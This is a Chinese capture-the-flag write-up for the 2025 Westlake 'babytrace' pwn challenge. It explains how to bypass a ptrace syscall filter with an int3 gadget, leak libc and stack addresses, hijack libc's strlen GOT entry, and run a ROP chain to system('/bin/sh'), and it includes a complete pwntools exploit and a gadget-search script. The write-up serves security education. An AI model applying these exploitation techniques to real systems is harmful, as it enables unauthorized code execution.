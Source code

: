 ```yaml
---
title: 西湖论剑 2025 初赛 - babytrace
date: 2025/08/02 00:18:00
updated: 2025/08/02 00:32:00
tags:
    - ptrace
    - int3
    - libc-hook
    - got-hijack
thumbnail: /assets/westlake2025/stack.png
excerpt: 利用 `int3` 干扰 ptrace 监控，劫持 `strlen@GOT` 实现 ROP 链，最终通过 `system` 拿 shell。
---
```


## 文件属性

|属性  |值    |
|------|------|
|Arch  |amd64 |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |yes   |
|libc  |2.35-0ubuntu3.5|

## 解题思路

### 绕过ptrace的监控

程序使用ptrace来监控syscall，按照`ptrace(PTRACE_SYSCALL, ...)`在文档中所言，
会在系统调用进入和退出时分别唤醒tracer。如果没有任何异常的话，我们就只能按照要求，
只能执行`read, write, newfstat, exit, exit_group`这么几个系统调用。

{% note blue fa-circle-info %}
我一开始不知道ptrace syscall在进入和退出时都会通知tracer，以为有一半的系统调用没有限制，
导致我一直在尝试让我想做的事落在没有限制的哪一半，还是对ptrace的机制不够熟悉啊。
{% endnote %}

我们需要的，就是需要通过什么办法，唤醒tracer，使调试关系错乱，进入syscall的时候没检查，
退出syscall的时候有检查，这样就拦不住任何东西了。接下来就是一个关键的指令出场了：`int3`。
这个指令能够触发系统中断表中的第3项，唤醒tracer，使tracee陷入调试状态，
就好像ptrace syscall执行了一样，从而骗过父进程，以为进入系统调用，实则并没有。

那么怎么找这样的gadget呢？ropper和ROPgadget都找不到，于是我写了这么一段代码，
手动寻找`int3` gadget。

```python find-int3.py
#!/bin/python
from pwn import *
libc = ELF('/home/Rocket/glibc-all-in-one/libs/2.35-0ubuntu3.5_amd64/libc.so.6')

int3s = list(libc.search(b'\xcc', executable=True))
for idx, addr in enumerate(int3s):
    disas = libc.disasm(addr, 30)
    if 'ret' not in disas:
        continue
    retoff = disas.find('ret')
    badoff = disas.find('(bad)')
    callof = disas.find('call')
    if badoff != -1 and badoff < retoff or callof != -1 and callof < retoff:
        continue
    print(f"{idx}th gadget")
    print(disas)
    pause()
```

经过仔细的挑选后，第726个gadget是最好的选择：它只是触发了`int3`而几乎没有任何副影响。

![int3](/assets/westlake2025/int3_gadget.png)

### 构造rop链

找到gadget后，就是考虑如何拿到flag了。题目给了两次任意读的机会和一次任意写的机会，
看了[官方wp](https://mp.weixin.qq.com/s/gXYLwdup6HYd_rETUSb9aA)后，觉得官方解法还是很妙的。

只有两次机会读，泄露stack和libc是最合适的，因此最好能直接控制执行流到libc上。
否则就要爆破栈或者PIE了。2.35的libc的GOT表还是可以写的，因此可以借助任意写，
劫持`libc.got['strlen']`，通过将栈抬高然后返回，就可以执行我们输入的ROP链，大概是这样：

![stack](/assets/westlake2025/stack.png)

这样就可以实现任意写后`puts -> +stack -> rop`。最后构造rop链加上int3，拿shell。

{% notel purple fa-exclamation 不能执行`execve("/bin/sh", NULL, NULL)` %}
这道题不能使用`execve`，因为执行的shell启动后仍然处于被调试状态，
各种syscall会在返回时被赋值为`-1`，从而被认定为失败，导致开不成shell。
反倒是`system`可以，因为会先fork一次，而题目没开`PTRACE_O_TRACEFORK`，
因而fork后执行syscall不受限制。
{% endnotel %}

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
context.arch = 'amd64'
def GOLD_TEXT(x): return f'\x1b[33m{x}\x1b[0m'
EXE = './babytrace'

def payload(lo: int):
    global t
    if lo:
        t = process(EXE)
        if lo & 2:
            gdb.attach(t, 'tb setter')
    else:
        t = remote('', 9999)
    libc = ELF('/home/Rocket/glibc-all-in-one/libs/2.35-0ubuntu3.5_amd64/libc.so.6')

    def setval(buf: bytes, idx: int, val: int):
        t.sendlineafter(b'choose', b'1')
        t.sendafter(b'recv', buf)
        t.sendlineafter(b'which', str(idx).encode())
        t.sendlineafter(b'set', str(val).encode())

    def getval(idx: int) -> int:
        t.sendlineafter(b'choose', b'2')
        t.sendlineafter(b'which', str(idx).encode())
        t.recvuntil(b'=')
        return int(t.recvline(), 10)

    libc_base = getval(-2) - libc.symbols['_IO_2_1_stderr_']
    success(GOLD_TEXT(f"Leak libc_base: {libc_base:#x}"))
    libc.address = libc_base
    stack_base = getval(-4) - 0x20
    success(GOLD_TEXT(f'Leak stack_base: {stack_base:#x}'))

    gadgets = ROP(libc)
    int3 = libc_base + 0xf6d43      # int3; nop; ret;
    jmp2buf = libc_base + 0x114b5c  # add rsp, 0x68; ret;
    chain = flat(int3,
                 gadgets.rdi.address, next(libc.search(b'/bin/sh')),
                 gadgets.ret.address, libc.symbols['system'],
                 gadgets.rdi.address, 0, libc.symbols['_exit'])
    offset = (libc.got['strlen'] - stack_base) // 8
    setval(flat({ 0: chain, 0x100: b'flag\0' }, filler=b'\0'), offset, jmp2buf)

    t.clean()
    t.interactive()
    t.close()
```

## 参考

1. [第八届西湖论剑·中国杭州网络安全技能大赛初赛官方Write Up（下）](https://mp.weixin.qq.com/s/gXYLwdup6HYd_rETUSb9aA)
